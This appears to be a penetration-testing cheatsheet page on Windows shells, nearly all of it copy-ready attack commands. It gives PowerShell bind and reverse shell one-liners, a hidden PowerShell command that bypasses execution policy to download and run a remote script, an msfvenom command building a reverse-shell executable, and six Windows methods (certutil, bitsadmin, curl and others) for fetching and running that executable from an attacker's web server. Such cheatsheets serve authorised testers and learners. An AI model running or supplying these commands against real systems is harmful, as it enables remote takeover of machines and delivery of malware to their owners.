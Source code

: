```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Shells
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Powershell**
==========

**Bind Shell Single Line**
--------------

<details>
<summary><u>On Target</u></summary>
<p>
BIND_PORT - Port to listen on target for connection in
</p>
</details>


```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',BIND_PORT);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"  
```

<details>
<summary><u>Locally</u></summary>
<p>
TARGET_IP - IP where you need to connect to listener (actual or proxied)
<br>
BIND_PORT - Port to connect to reach listener
</p>
</details>

```
nc TARGET_IP BIND_PORT
```

**Reverse Shell Single Line**
-----------------------------

<details>
<summary><u>Locally</u></summary>
<p>
REVERSE_PORT - Port you want to open to receive a callback
</p>
</details>

```
nc -nlvp REVERSE_PORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP - Where target needs to send connection to reach your listener
REVERSE_PORT - Port target needs to send connection to reach listener
</p>
</details>

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('REVERSE_IP',REVERSE_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Reverse Shell w/ IEX**
---------------------


<details>
<summary><u>Locally</u></summary>
<p>
MY_WEBPORT - Port of web server on your host
<br>
REVERSE_PORT - Port target will be hitting on host to get reverse shell
</p>
</details>

```
python3 -m http.server MY_WEBPORT
nc -nlvp REVERSE_PORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_PORT - Port to listen for connection in
<br>
MY_WEBPORT - Port of web server on your host
<br>
MY_SCRIPT - Name of script you are hosting that powershell will execute to get the reverse shell.
</p>
</details>

```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('http://REVERSE_IP:MY_WEBPORT/MY_SCRIPT.ps1'); MY_SCRIPT.ps1"
```

**Generic**
===========

**Reverse via http**
---------------------

<details>
<summary><u>Locally</u></summary>
<p>
REVERSE_IP - IP target will be connecting to send reverse shell
<br>
REVERSE_PORT - Port host will open to recieve reverse shell
<br>
EVILEXE - name of EXE
</p>
</details>

```
nc -nlvp REVERSE_PORT
msfvenom -p windows/shell_reverse_tcp LHOST=REVERSE_IP LPORT=REVERSE_PORT –f exe -o EVILEXE.exe
python3 -m http.server MY_WEBPORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP - IP target will be connecting to send reverse shell
<br>
REVERSE_PORT - Port host will open to recieve reverse shell
<br>
EVILEXE - name of EXE
</p>
</details>

```
\\POWERSHELL IWR
Invoke-WebRequest -Uri http://REVERSE_IP:MY_WEBPORT/EVILEXE.exe -OutFile EVILEXE.exe
EVILEXE.exe

\\POWERSHELL Webclient
(New-Object System.Net.WebClient).DownloadFile(http://REVERSE_IP:MY_WEBPORT/EVILEXE.exe, EVILEXE.exe)
EVILEXE.exe

\\POWERSHELL BitsTransfer
Start-BitsTransfer -Source http://REVERSE_IP:MY_WEBPORT/EVILEXE.exe -Destination EVILEXE.exe
EVILEXE.exe

\\WIN10 curl.exe
curl.exe --output EVILEXE.exe --url http://REVERSE_IP:MY_WEBPORT/EVILEXE.exe
EVILEXE.exe

\\WINXP+ bitsadmin
bitsadmin /transfer myDownloadJob /download /priority normal http://REVERSE_IP:MY_WEBPORT/EVILEXE.exe EVILEXE.exe
EVILEXE.exe

\\WINVISTA+ certutil
certutil.exe -urlcache -split -f "http://REVERSE_IP:MY_WEBPORT/EVILEXE.exe" EVILEXE.exe
EVILEXE.exe
```
